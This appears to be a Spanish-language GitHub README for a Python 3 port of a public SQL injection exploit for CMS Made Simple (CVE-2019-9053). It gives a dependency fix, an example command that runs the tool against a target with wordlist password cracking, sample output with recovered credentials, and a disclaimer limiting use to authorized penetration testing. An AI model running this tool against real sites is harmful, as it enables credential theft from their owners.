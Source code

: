 # CMS Made Simple < 2.2.10 - SQL Injection (el exploit ha sido parcheado para ser compatible con Python 3.)

<h1> CVE-2019-9053
  <h2>Fuente de exploración original: https://www.exploit-db.com/exploits/46635
<h1> Posible error y su corrección. </h1>

<bash>Traceback (most recent call last):
  File "46635.py", line 12, in <module>
    from termcolor import colored
ImportError: No module named termcolor
  
<h2> Corrección
  
  <code> pip install termcolor
  </code>

  <h2> Ejemplo de comando </h2>
  
  <code> python cve.py -u http://target --crack -w /usr/share/wordlists/best110.txt   
 </code>
  
  <h1> Ejemplo del Resultado:
	  
```
  [+] Salt for password found: 18
  [+] Username found: mitw
  [+] Email found: adk
  [+] Password found: 0c01f4468d
```                                 

# Los usuarios asumen toda la responsabilidad por cualquier acción realizada con esta herramienta..</p>
# Si estos términos no son aceptables para usted, no utilice esta herramienta.
# Utilice esta herramienta solo en entornos donde se le permita realizar actividades de pruebas de penetración..
# No utilice esta herramienta con fines maliciosos.


<a href="https://www.buymeacoffee.com/deadgirlerg"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=deadgirlerg&button_colour=FF5F5F&font_colour=ffffff&font_family=Cookie&outline_colour=000000&coffee_colour=FFDD00" /></a>
